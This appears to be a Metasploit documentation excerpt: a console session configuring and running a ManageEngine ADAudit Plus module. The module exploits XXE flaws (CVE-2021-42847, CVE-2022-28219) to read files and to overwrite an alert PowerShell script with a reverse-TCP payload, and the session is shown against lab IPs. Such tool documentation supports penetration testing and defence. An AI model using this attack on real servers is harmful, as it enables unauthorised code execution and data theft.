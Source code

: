 ### OVERWRITE_ALERT_SCRIPT
```
msf6 auxiliary(admin/http/manageengine_adaudit_plus_file_read_write) > options 

Module options (auxiliary/admin/http/manageengine_adaudit_plus_file_read_write):

   Name              Current Setting   Required  Description
   ----              ---------------   --------  -----------
   ALERT_SCRIPT      user_lockout.ps1  no        Name of an existing PowerShell script in /alert_scripts to overwrite when using OVERWRITE_ALERT_SCRIPT
   CUSTOM_PAYLOAD                      no        Custom payload to use for WRITE_FILE and OVERWRITE_ALERT_SCRIPT. Ignored if USE_MSF_PAYLOAD is true
   DOMAIN                              no        Active Directory domain that the target monitors, Required if XXE VECTOR is CVE-2022-28219
   FILE_OR_DIR_PATH  /windows/win.ini  no        Path to read or write to. For read operations this should contain forward slashes and exclude the drive
   LHOST             192.168.91.195    no        The local IP address to use for write operations with USE_MSF_PAYLOAD, or for receiving NTLM auth requests (TRIGGER_NTLM_AUTH)
   LOAD_MODULES                        no        A list of powershell modules separated by a comma to download over the web
   LPORT             4444              no        The listening port to use when using USE_MSF_PAYLOAD
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            192.168.91.250    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             8081              yes       The target port (TCP)
   SRVHOST           192.168.91.195    yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresse
                                                 s.
   SRVPORT           8080              yes       The local port to listen on.
   SRVPORT_FTP       2121              yes       Port for FTP reverse connection
   SRVPORT_HTTP2     8888              yes       Port for additional HTTP reverse connections
   SSL               false             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                             no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI         /                 yes       The base path to ManageEngine ADAudit Plus
   URIPATH                             no        The URI to use for this exploit (default is random)
   USE_MSF_PAYLOAD   true              no        Use the cmd/windows/powershell_reverse_tcp payload for WRITE_FILE and OVERWRITE_ALERT_SCRIPT.
   VHOST                               no        HTTP server virtual host
   XXE_VECTOR        CVE-2021-42847    no        XXE vector for obtaining file contents/directory listings (CVE-2022-28219 or CVE-2021-42847)


Auxiliary action:

   Name                    Description
   ----                    -----------
   OVERWRITE_ALERT_SCRIPT  Overwrite the contents of an existing PowerShell script in alert_scripts/ with a payload


msf6 auxiliary(admin/http/manageengine_adaudit_plus_file_read_write) > run
[*] Running module against 192.168.91.250

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The vulnerable endpoint /api/agent/tabs/agentGPOWatcherData is available and responds with HTTP/200
[*] Performing sanity check to see if user_lockout.ps1 exists...
[*] Getting contents for /Program Files/ManageEngine/ADAudit Plus/ via XXE and FTP
[*] Using URL: http://192.168.91.195:8080/wOmkRtXagck.dtd
```